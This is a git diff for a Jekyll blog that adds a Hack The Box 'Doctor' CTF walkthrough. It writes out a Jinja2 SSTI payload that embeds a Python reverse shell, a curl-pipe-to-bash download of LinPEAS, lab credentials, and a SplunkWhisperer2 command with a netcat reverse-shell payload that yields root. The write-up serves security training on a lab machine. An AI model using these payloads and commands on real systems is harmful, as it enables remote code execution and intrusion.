

Before and after one commit to idiothacker/idiothacker.github.io, a Jekyll site: the page built from _pages/category-archive.md, in a window 1280 px wide and 900 px high, scrolled down 2631 px. Shown: the whole window, without its empty margins (0-1006 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; some of the changed lines change nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
Doctor walkthrough completed.

````diff
--- a/_posts/2021-01-22-hackthebox-walkthrough-compromised.markdown
+++ b/_posts/2021-01-22-hackthebox-walkthrough-compromised.markdown
@@ -11,7 +11,6 @@
 categories:
   - Hack the Box
   - Linux
-  - CTF
 tags:
   - Hack the Box
   - Linux
--- /dev/null
+++ b/_posts/2021-02-05-hackthebox-walkthrough-doctor.markdown
@@ -0,0 +1,215 @@
+---
+layout: single
+title: Doctor Walkthrough - Hack The Box
+excerpt: "Doctor is an easy difficulty rated Linux machine from Hack the Box. This machine will teach us how to find and exploit a Server-Side Template Injection vulnerability on a Python Flask server using the Jinja2 template engine. We are able to exploit the SSTI vulnerability to get a reverse shell. This leads to us finding the credentials required to exploit the Splunk Universal Forwarder using the SplunkWhisperer script."
+classes: wide
+header:
+  teaser: /assets/images/htb-doctor/doctor_logo.png
+  teaser_home_page: true
+  icon: /assets/images/hackthebox.webp
+categories:
+  - Hack the Box
+  - Linux
+tags:
+  - Hack the Box
+  - Linux
+  - SSTI
+  - Template Injection
+  - Jinja2
+  - Splunk
+  - Splunk Forwarder
+  - SplunkWhisperer
+---
+
+![](/assets/images/htb-doctor/doctor_logo.png)
+
+## Summary
+Doctor is an easy difficulty rated Linux machine from [Hack the Box](https://hackthebox.eu). This machine will teach us how to find and exploit a `Server-Side Template Injection` vulnerability on a Python Flask server using the `Jinja2` template engine. We are able to exploit the SSTI vulnerability to get a reverse shell. This leads to us finding the credentials required to exploit the `Splunk Universal Forwarder` using the SplunkWhisperer script.
+
+## Port Scan
+We'll start by scanning for open TCP ports using the following nmap command.
+
+``` bash
+nmap -sCTV -Pn -T4 -p- -oA nmap_all_tcp 10.10.10.209
+```
+
+![](/assets/images/htb-doctor/01_doctor_nmap_scan.png)
+
+Our scan shows us that `OpenSSH 8.2p1` is running on port 22, `Apache 2.4.41` is on port 80, and some version of `Splunk` appears to be running on port 8089. The Splunk service is standing out as really interesting, but we should first take a look at the website on port 80.
+
+## Website(s) - Port 80
+When we navigate to `http://10.10.10.209/` we are presented with a basic website that is mostly nonfunctional. It is made to look like a website for a physician’s office. We do not get a lot of information for here. However, one thing that stands out is that there is a domain listed here, `doctors.htb` that may be a virtual host that leads us to something else.
+
+![](/assets/images/htb-doctor/02_doctor_website.png)
+
+We should add `doctors.htb` to our hosts (`/etc/hosts`) file.
+
+``` bash
+10.10.10.209    doctors.htb
+```
+
+![](/assets/images/htb-doctor/03_doctor_hosts.png)
+
+Now when we navigate to `http://doctors.htb` in our browser, we are presented with a different site. This one is some kind of messaging application that requires a login.
+
+![](/assets/images/htb-doctor/04_doctor_login.png)
+
+We do not have any credentials at this point, and so we can try some basic SQLi attempts, however this will fail as the login functionality appears to be appropriately filtered. There is a `Register` option. We should try to create an account.
+
+![](/assets/images/htb-doctor/05_doctor_register.png)
+
+We are able to successfully register an account. Once logged in, we are given a page that has two options. We can edit our account email and username, and we can add a new message.
+
+![](/assets/images/htb-doctor/06_doctor_new_message.png)
+
+We are able to add new messages. When we attempt to include HTML tags such as `h1`, `em`, and `strong` the tags are cleaned and rendered in their raw form on the page.
+
+![](/assets/images/htb-doctor/07_doctor_messages.png)
+
+When looking at the page source, we can see that this is happening because the HTML characters have been replaced with their escape codes.
+
+![](/assets/images/htb-doctor/08_doctor_escape_codes.png)
+
+We find something else that is very interesting while looking at the page source...
+
+![](/assets/images/htb-doctor/09_doctor_archive_comment.png)
+
+A navigation item in the menu for `/archive` has been commented out, and is apparently still in testing. When we navigate to `http://doctors.htb/archive`, we are presented with what appears to be a blank page. However, when we view the page source we see something really interesting.
+
+![](/assets/images/htb-doctor/10_doctor_archive_source.png)
+
+The `/archive` page appears to be looping through the messages that we have added, and adding entries to this page for each message and populating our titles in `<item>` and `<title>` tags. It also appears that the HTML in our titles are being added to the page in its raw form and not being changed to escape codes. We might be able to break this page and get it to render our HTML by manipulating the way that the tags are placed on the page by the template engine that is looping through the messages.
+
+For example, if we start the title of a message with closing `item` and `title` tags, `</item></title>`, the template engine may places these in a way that would close the tags, resulting in us owning the tags that open next. Let's try adding a message with this as the title.
+
+```
+</item></title><h1>Testing for Server-Side Template Injection</h1>
+```
+
+![](/assets/images/htb-doctor/11_doctor_ssti_test.png)
+
+As expected, the main page will render this the same as before by replacing the HTML tag brackets with their escape characters. However, when we navigate to the `/archive` we see something interesting...
+
+![](/assets/images/htb-doctor/12_doctor_ssti_test_render.png)
+
+The text in our `h1` tag has been rendered on the page and is being formatted with the browsers default heading 1 format. If we look at the page source, we can see that this worked exactly as we had hoped. The `</item></title>` tags in our title closed the opening tags in the template. We were then able to inject our own `h1` tag and the page honored it. This means that we have likely found a [Server-Side Template Injection](https://portswigger.net/web-security/server-side-template-injection) vulnerability.
+
+![](/assets/images/htb-doctor/13_doctor_ssti_test_render_source.png)
+
+## Exploiting the SSTI
+To further test and exploit this vulnerability, we search Google for `SSTI Payloads` and we will find the [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) list of SSTI payload examples. This is great, but there is something else that we need to know before we just start blindly throwing payloads at this. We need to try to narrow down the likely template engine that is being used here.
+
+Using the `Wappalyzer` browser plugin for Firefox, we are able to see that the site appears to be using a Python Flask web server.
+
+![](/assets/images/htb-doctor/14_doctor_plugins.png)
+
+If we search for `flask` in the `PayloadsAllTheThings`, we find that the template engine [Jinja2](https://jinja.palletsprojects.com/en/2.11.x/) is commonly used with Flask applications. And we can see here a list of testing payloads.
+
+![](/assets/images/htb-doctor/15_doctor_ssti_jinja2.png)
+
+Based on the examples provided here, we can try to create a new message with `{{ "{{config.items()" }}}}` as the title. If the SSTI is there, we should see that some of the configuration items will be generated on the Archive page.
+
+>**NOTE:** You can do this with or without closing the item and title tags. If you do it with, it will be rendered on the /archive page. If you do it without the tags, it will be viewable from the archive source.
+
+![](/assets/images/htb-doctor/16_doctor_ssti_jinja2_test.png)
+
+Awesome! When looking at the /archive source we can see that we do indeed have an exploitable SSTI vulnerability. Now we just need to turn this into remote code execution and hopefully a reverse shell.
+
+On the payloads list, we see a one-liner under the `Jinja2 - Remote Code Execution` section named `Exploit the SSTI by calling Popen without guessing the offset`. Reading through this, it will run a system process to try to read out a file named flag.txt. We can go grab code for a python reverse shell from [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and then update the injection example to request a shell rather than attempt to open a file.
+
+And so we will create a new message with the following as the title.
+
+>**NOTE:** Do not forget to change `<YOUR TUNNEL IP>` to your machine IP.
+
+{% raw %}
+  ``` python
+  {% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"<YOUR TUNNEL IP>\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
+  ```
+{% endraw %}
+
+![](/assets/images/htb-doctor/17_doctor_ssti_jinja2_shell.png)
+
+Now if we start a netcat listener on port 443..
+
+``` bash
+nc -lnvp 443
+```
+
+And then we navigate to the `/archives` page, we should receive a reverse shell request.
+
+![](/assets/images/htb-doctor/18_doctor_ssti_jinja2_rev_shell.png)
+
+Success! This results in a reverse shell as the `web` users. However, this is just out foothold and the account does not have access to the user flag, and so we will need to begin to enumerate the system to look for a way to get more access.
+
+## Hunting for the Next User (User Flag)
+There is a home directory for a user named `shaun`. We can see the `user.txt` file in Shaun's home directory, but we do not have access to cat it out. As an initial step in enumeration, we can try running the [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) script on the machine.
+
+Download the file into your working directory and then start a python web server from the directory.
+
+``` bash
+python3 -m http.server 80
+```
+
+We can now run it by requesting the file with curl and then just piping it into bash.
+
+``` bash
+curl http://<YOUR TUNNEL IP>/linPEAS.sh | bash
+```
+
+This may take a few minutes to run. When it finishes, we find what appears to be a password in `/var/log/apache2/backup`.
+
+![](/assets/images/htb-doctor/19_doctor_shaun_pass.png)
+
+This is a log file for the apache server, and it would seem that it logged a POST request for the password reset functionality on doctors.htb. It would seem that the plain text version of the password is passed as a URL parameter and was logged here. We do not know what the password belongs to, but it is worth check to see if it is a reused password for the shaun account.
+
+``` bash
+su shaun
+```
+
+![](/assets/images/htb-doctor/20_doctor_user_flag.png)
+
+Great! `Guitar123` was indeed the password for the `shaun` user. We are able to switch to this account using `su` and we now have access to the user flag.
+
+##### User Credentials
+```
+User: shaun
+Pass: Guitar123
+```
+
+## Finding a Path to Root (Root Flag)
+Now that we have working credentials for the shaun user, we need to begin finding a way to escalate to the root user. Our typical enumeration of the system will not return any more information than we already have. Shaun cannot sudo, LinPEAS doesn’t return anything special, there doesn’t seem to be any easy wins of scheduled jobs or processes running that we can manipulate. However, we do know that there is still another service/port that we have yet to look into.
+
+As we learned in our scan above, there is some kind of Splunk service running on port 8089. A Google search for `Splunk port 8089` shows us that this is likely the [Splunk Universal Forwarder](https://docs.splunk.com/Documentation/Forwarder/8.1.1/Forwarder/Abouttheuniversalforwarder).
+
+We can confirm this by running a `locate` on splunk, and then looking for a `splunk forwarder` installation on the system.
+
+![](/assets/images/htb-doctor/21_doctor_splunk.png)
+
+We can see that there is what appears to be a `Splunk Forwarder 8.0.5` installation found in `/opt/splunkforwarder`. I Google search for `Splunk Forwarder Vulnerabilities` will lead to [this post](https://clement.notin.org/blog/2019/02/25/Splunk-Universal-Forwarder-Hijacking-2-SplunkWhisperer2/) about `Splunk Universal Forwarder Hijacking` and using an authenticated attack that allows for remote code execution as the account that is running the forwarder. This post also shows us that there is an exploit script named [SplunkWhisperer2](https://github.com/DaniloCaruso/SplunkWhisperer2/tree/master/PySplunkWhisperer2) that may be able to help us with this.
+
+Download the files to you working directory.
+
+Start a listener on port 4433.
+
+``` bash
+nc -lvnp 4433
+```
+
+Move into the directory containing the remote script. And then run the script using the following command.
+
+``` bash
+python PySplunkWhisperer2_remote.py --lhost <YOUR TUNNEL IP> --host 10.10.10.209 --username shaun --password Guitar123 --payload 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR TUNNEL IP> 4433 >/tmp/f'
+```
+
+>**NOTE:** Do not forget to change `<YOUR TUNNEL IP>` to your machine IP. It's in two places.
+
+![](/assets/images/htb-doctor/22_doctor_splunk_whisperer.png)
+
+![](/assets/images/htb-doctor/23_doctor_root_flag.png)
+
+Success! This results in a reverse shell as the root user and we now have both the user and root flags!
+
+## Conclusion
+I really enjoyed the foothold on this machine. I haven’t had a lot of opportunity to practice finding and exploiting server-side template injection. And so, I really enjoyed the opportunity to do it here. I had also heard of the SplunkWhisperer vulnerability well before getting a chance to use it on this machine. It was pretty straight forward once getting my hands on the script, and so there was nothing particularly exciting about this. Overall it was a nice easy machine.
+
+If you felt my walkthrough helped you, please take a couple of seconds to visit my [HTB Profile](https://www.hackthebox.eu/home/users/profile/271618) and tap that respect button. Also, if you would like to receive a notice of new walkthroughs being posted, follow me on [Twitter](https://twitter.com/IdiotHackerEB). If you have any questions or run into any problems as you walk through this, please feel free to reach out to me on Twitter or Discord (idiothacker). Have fun hacking!
````
